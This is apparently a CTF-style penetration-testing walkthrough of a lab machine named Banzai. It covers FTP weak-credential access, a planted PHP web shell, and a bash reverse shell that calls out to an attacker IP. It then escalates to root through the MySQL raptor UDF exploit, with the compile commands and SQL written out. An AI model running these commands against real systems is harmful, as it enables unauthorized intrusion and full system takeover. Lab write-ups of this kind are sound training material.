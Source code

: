 # Banzai

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 3000 -Pn 192.168.160.56
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-13 12:04 +08
Nmap scan report for 192.168.160.56
Host is up (0.17s latency).
Not shown: 65528 filtered tcp ports (no-response)
PORT     STATE  SERVICE
21/tcp   open   ftp
22/tcp   open   ssh
25/tcp   open   smtp
5432/tcp open   postgresql
8080/tcp open   http-proxy
8295/tcp open   unknown
```

### FTP Weak Creds -> RCE

The FTP service has weak credentials of `admin:admin`:

```
$ ftp 192.168.160.56
Connected to 192.168.160.56.
220 (vsFTPd 3.0.3)
Name (192.168.160.56:kali): admin
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    2 1001     0            4096 May 26  2020 contactform
drwxr-xr-x    2 1001     0            4096 May 26  2020 css
drwxr-xr-x    3 1001     0            4096 May 26  2020 img
-rw-r--r--    1 1001     0           23364 May 27  2020 index.php
drwxr-xr-x    2 1001     0            4096 May 26  2020 js
drwxr-xr-x   11 1001     0            4096 May 26  2020 lib
```

Within it, there seem to be web application folders. Since `index.php` is present, I placed `cmd.php` shell and tested it with the web service runnign on port 8080 and port 8295:

```
$ curl -G --data-urlencode 'cmd=id' http://192.168.160.56:8295/cmd.php
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We now have RCE, and we can easily get a reverse shell.

{% code overflow="wrap" %}
```
$ curl -G --data-urlencode 'cmd=bash -c "bash -i >& /dev/tcp/192.168.45.191/21 0>&1"' http://192.168.160.56:8295/cmd.php
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/image (1314).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### MySQL Raptor -> Root

Within the machine, we find that MySQL is listening on port 3306:

```
www-data@banzai:/home/banzai$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:21              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:5432            0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:25              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::5432                 :::*                    LISTEN      -                   
tcp6       0      0 :::25                   :::*                    LISTEN      -                   
tcp6       0      0 :::8295                 :::*                    LISTEN      -                   
tcp6       0      0 :::8080                 :::*                    LISTEN      - 
```

When checking which user was running it, I found that it was the `root` user:

{% code overflow="wrap" %}
```
www-data@banzai:/home/banzai$ ps -elf | grep mysql
5 S root       799     1  0  80   0 - 280746 -     00:01 ?        00:00:00 /usr/sbin/mysqld --daemonize --pid-file=/var/run/mysqld/mysqld.pid
```
{% endcode %}

Conveniently, MySQL creds were also present within the machine:

```
www-data@banzai:/var/www$ cat config.php
<?php
define('DBHOST', '127.0.0.1');
define('DBUSER', 'root');
define('DBPASS', 'EscalateRaftHubris123');
define('DBNAME', 'main');
?>

www-data@banzai:/var/www$ mysql -u root -pEscalateRaftHubris123
mysql> select @@version;
+-----------+
| @@version |
+-----------+
| 5.7.30    |
+-----------+
1 row in set (0.00 sec)
```

I wanted to use the UDF Raptor exploit, but we first need to find the Plugins directory and whether there are any protections over the files:

```
mysql> SHOW VARIABLES LIKE "secure_file_priv";
+------------------+-------+
| Variable_name    | Value |
+------------------+-------+
| secure_file_priv |       |
+------------------+-------+
1 row in set (0.01 sec)

mysql> SHOW VARIABLES LIKE 'plugin_dir';
+---------------+------------------------+
| Variable_name | Value                  |
+---------------+------------------------+
| plugin_dir    | /usr/lib/mysql/plugin/ |
+---------------+------------------------+
1 row in set (0.00 sec)
```

The above means that it is vulnerable!

{% embed url="https://www.exploit-db.com/exploits/1518" %}

This method exploits the access that the `root` user has over the system using MySQL, which allows for malicious shared objects to be loaded and gives an attacker RCE as `root` using the MySQL instance.&#x20;

First, compile the exploit accordingly on the machine itself:

```bash
gcc -g -c 1518.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so 1518.o -lc
chmod 777 raptor_udf2.so
```

Then, transfer the shared object to the machine and run the following commands in MySQL:

```sql
use mysql;
create table foo(line blob);
insert into foo values(load_file('/tmp/raptor_udf2.so'));
select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select * from mysql.func;
```

Afterwards, we can just execute a command as `root`:

```
mysql> select do_system('chmod u+s /bin/bash');
+----------------------------------+
| do_system('chmod u+s /bin/bash') |
+----------------------------------+
|                                0 |
+----------------------------------+
1 row in set (0.00 sec
```

We can then easily get a `root` shell:

![](<../../../.gitbook/assets/image (3704).png>)
